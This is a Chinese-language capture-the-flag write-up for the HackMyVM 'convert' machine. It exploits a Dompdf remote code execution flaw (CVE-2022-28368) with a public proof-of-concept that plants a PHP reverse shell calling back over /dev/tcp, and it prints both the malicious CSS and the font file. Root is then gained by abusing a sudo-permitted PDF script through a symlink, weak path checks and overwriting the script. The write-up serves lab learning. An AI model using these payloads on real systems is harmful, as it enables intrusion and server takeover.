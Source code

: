```yaml
---
sidebar_position: 7
tags: [Easy, Linux, 命令执行, 定时任务, 逻辑漏洞, 链接文件]
title: convert
description: convert
---
```

import Tabs from '@theme/Tabs';
import TabItem from '@theme/TabItem';

# convert
## 端口扫描
```bash
┌──(root㉿kali)-[~/CTF/HackerMyVM]
└─# nnmap -sTCV -p- --min-rate 1000 192.168.0.102
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-17 04:05 EDT
Nmap scan report for espo.hmv (192.168.0.102)
Host is up (0.021s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 d8:7a:1e:74:a2:1a:40:74:91:1f:81:9b:05:7c:9a:f6 (ECDSA)
|_  256 28:9f:f8:ce:7b:5d:e1:a7:fa:23:c1:fe:00:ee:63:24 (ED25519)
80/tcp open  http    nginx 1.22.1
|_http-server-header: nginx/1.22.1
|_http-title: HTML to PDF
MAC Address: 08:00:27:41:DA:CC (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.92 seconds
```
## HTTP - 80
![](https://raw.githubusercontent.com/JTZ-a/Image/main/img/20240417160748.png)
观察这个页面发现是一个接收 URL 地址的, 输入之后显示的内容是一个网页 PDF 查看 PDF 的文档属性, 发现其存在一个 RCE : [CVE-2022-28368](https://github.com/rvizx/CVE-2022-28368)

![](https://raw.githubusercontent.com/JTZ-a/Image/main/img/20240417161348.png)

随后按照 EXP 的信息进行尝试利用, 首先执行这个脚本文件, 该脚本会去帮我们生成一个 `.css` 和一个 `.php` 文件
> 这里不需要管这个 py 脚本的参数 URL 地址, 我们只是需要使用其提供的恶意文件

```bash
┌──(EXP)─(root㉿kali)-[~/CTF/HackerMyVM/CVE-2022-28368]
└─# python dompdf-rce.py --inject https://vuln.rvz/dev/convert-html-to-pdf?html= --dompdf https://vuln.rvz/dompdf/


                CVE-2022-28368 - Dompdf RCE PoC Exploit
                Ravindu Wickramasinghe | rvz  - @rvizx9
                https://github.com/rvizx/CVE-2022-28368


[inf]: selected ip address: 192.168.0.104
[inf]: using payload: <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.0.104/9002 0>&1'");?>
[inf]: generating exploit.css and exploit_font.php files...
[inf]: url hash: ffc00d3e45aad9d4d73e32d98f624c20
[inf]: filename: exploitfont_normal_ffc00d3e45aad9d4d73e32d98f624c20.php
[inf]: starting http server on port 9001..
[inf]: sending the payloads..
                                                                                                                                                                 
┌──(EXP)─(root㉿kali)-[~/CTF/HackerMyVM/CVE-2022-28368]
└─# ls
README.md  dompdf-rce.py  exploit.css  exploit_font.php  requirements.txt
                                                                                                                                                                 
┌──(EXP)─(root㉿kali)-[~/CTF/HackerMyVM/CVE-2022-28368]
└─# cat exploit.css 

@font-face {
    font-family:'exploitfont';
    src:url('http://192.168.0.104:9001/exploit_font.php');
    font-weight:'normal';
    font-style:'normal';
}
                                                                                                                                                                         
┌──(EXP)─(root㉿kali)-[~/CTF/HackerMyVM/CVE-2022-28368]
└─# cat exploit_font.php 

� dum1�cmap
           `�,glyf5sc��head�Q6�6hhea��($hmtxD
loca
Tmaxp\ nameD�|8dum2�
                     -��-����
:83#5:08��_<�
             @�8�&۽
:8L��

:D

6                               s
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.0.104/9002 0>&1'");?>
```
随后创建一个 HTML 文件, 并在其中引入我们的 CSS 文件
```html
┌──(EXP)─(root㉿kali)-[~/CTF/HackerMyVM/CVE-2022-28368]
└─# cat a.html 
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>My Website</title>
    <link rel="stylesheet" href="http://192.168.0.104:9001/exploit.css">
</head>
<body>
    <!-- 这里是你的 HTML 内容 -->
</body>
</html>
```
随后创建一个 HTTP 服务器,监听 9001 端口, 随后向网站提交指定的 URL 地址
![](https://raw.githubusercontent.com/JTZ-a/Image/main/img/20240417175224.png)
可以看到其解析的顺序, 以此进行解析并获取了我们的恶意文件, 至于其保存的文件的名称在之前使用  `dompdf-rce.py` 时已经告诉我们为`exploitfont_normal_ffc00d3e45aad9d4d73e32d98f624c20.php` 随后在本地开启监听, 并访问  `http://xxxx/dompdf/lib/fonts/exploitfont_normal_ffc00d3e45aad9d4d73e32d98f624c20.php` 就可以 获取到一个 Shell
![](https://raw.githubusercontent.com/JTZ-a/Image/main/img/20240417175619.png)
## 后渗透
### eva --> root
首先可以发现用户可以执行一个特权命令


<Tabs>
  <TabItem value="apple" label="Command" default>
    ```bash
    (remote) eva@convert:/home/eva$ sudo -l
    Matching Defaults entries for eva on convert:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

    User eva may run the following commands on convert:
        (ALL : ALL) NOPASSWD: /usr/bin/python3 /home/eva/pdfgen.py *
    ```
    </TabItem>
    <TabItem value="orange" label="/home/eva/pdfgen.py">
```python 
from os import path
from time import time
from weasyprint import HTML, CSS
from urllib.parse import urlparse
from argparse import ArgumentParser
from logging import basicConfig, INFO, error, info, exception

def prune_log(log_file, max_size=1):
    try:
        log_size = path.getsize(log_file) / (1024 * 1024)
        if log_size > max_size:
            with open(log_file, 'w'):
                pass
            info(f"Log file pruned. Size exceeded {max_size} MB.")
            print(f"Log file pruned. Size exceeded {max_size} MB.")
    except Exception as e:
        print(f"Error pruning log file: {e}")

log_file = '/home/eva/pdf_gen.log'
prune_log(log_file)
basicConfig(level=INFO, filename=log_file, filemode='a',
            format='%(asctime)s - %(levelname)s - %(message)s')

def is_path_allowed(output_path):
    blocked_directories = ["/root", "/etc"]
    for directory in blocked_directories:
        if output_path.startswith(directory):
            return False
    return True

def url_html_to_pdf(url, output_path):
    block_schemes = ["file", "data"]
    block_hosts = ["127.0.0.1", "localhost"]
    blocked_directories = ["/root", "/etc"]

    try:
        start_time = time()

        scheme = urlparse(url).scheme
        hostname = urlparse(url).hostname

        if scheme in block_schemes:
            error(f"{scheme} scheme is Blocked")
            print(f"Error: {scheme} scheme is Blocked")
            return

        if hostname in block_hosts:
            error(f"{hostname} hostname is Blocked")
            print(f"Error: {hostname} hostname is Blocked")
            return

        if not is_path_allowed(output_path):
            error(f"Output path is not allowed in {blocked_directories} directories")
            print(f"Error: Output path is not allowed in {blocked_directories} directories")
            return

        html = HTML(url.strip())
        html.write_pdf(output_path, stylesheets=[CSS(string='@page { size: A3; margin: 1cm }')])

        end_time = time()
        elapsed_time = end_time - start_time
        info(f"PDF generated successfully at {output_path} in {elapsed_time:.2f} seconds")
        print(f"PDF generated successfully at {output_path} in {elapsed_time:.2f} seconds")

    except Exception as e:
        exception(f"Error: {e}")
        print(f"Error: {e}")

if __name__ == "__main__":
    parser = ArgumentParser(description="Convert HTML content from a URL to a PDF file.")
    parser.add_argument("-U", "--url", help="URL of the HTML content to convert", required=True)
    parser.add_argument("-O", "--out", help="Output file path for the generated PDF", default="/home/eva/output.pdf")

    args = parser.parse_args()
    url_html_to_pdf(args.url, args.out)
```
</TabItem>
</Tabs>
这个脚本的作用是将指定资源内容转换为 PDF 进行显示, 提权方式存在多种
<Tabs>
  <TabItem value="one" label="第一种提权方式: 利用链接文件" default>
首先该脚本在检测文件是否可以读取时, 检测的路径仅仅判断是否为 `/root` 和 `/etc`, 所以完全可以使用链接文件来进行操作, 但是值得注意的是, 这个路径好像只能在用户家目录中否则会报错误
```bash
(remote) eva@convert:/home/eva$ ln -sv /root/root.txt /home/eva/flag.txt
'/home/eva/flag.txt' -> '/root/root.txt'
(remote) eva@convert:/home/eva$ sudo -u root /usr/bin/python3 /home/eva/pdfgen.py -sudo -u root /usr/bin/python3 /home/eva/pdfgen.py -U /home/eva/flag.txt
PDF generated successfully at /home/eva/output.pdf in 0.06 seconds
```
  </TabItem>
  <TabItem value="two" label="第二种提权方式: 利用代码逻辑">
    如果观察代码, 可以发现仅仅只检查了输出文件的路径是否为 `/root` `/etc` 而对于输入的数据来源缺检测的也仅仅是协议, 如果直接读取也可以成功
    ![20240522000535](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240522000535.png)
  </TabItem>
  <TabItem value="there" label="第三种提权方式: 修改原文件">
    对应的脚本文件存储在用户家目录中, 所以可以删除原本的文件进行重写, 从下面可以看到原本的文件被删除了
    ![](https://raw.githubusercontent.com/JTZ-a/Image/main/img/20240417181342.png)
  </TabItem>
</Tabs>